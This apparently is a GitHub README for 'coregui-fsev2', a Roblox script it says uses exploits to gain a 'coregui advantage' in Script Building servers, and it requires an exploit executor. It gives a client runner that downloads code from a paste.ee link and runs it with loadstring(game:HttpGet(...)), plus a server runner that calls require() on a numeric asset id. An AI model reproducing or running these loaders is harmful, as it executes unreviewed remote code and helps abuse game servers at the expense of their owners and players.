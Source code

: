 # coregui-fsev2
fsev2 that uses exploits to get a coregui advantage in Script Building servers.
------------------------------------------------------------------------
### notice: client runner requires exploit executor.

### client runner:
```lua 
loadstring(game:HttpGet("https://paste.ee/r/W24AKKRy", true))()
```
### server runner for people who don't have loaders or can't execute the main one properly in a server:
```lua
require(97380647167050)(owner.Name)
```

------------------------------------------------------------------------

# TODO:
- nothing to do

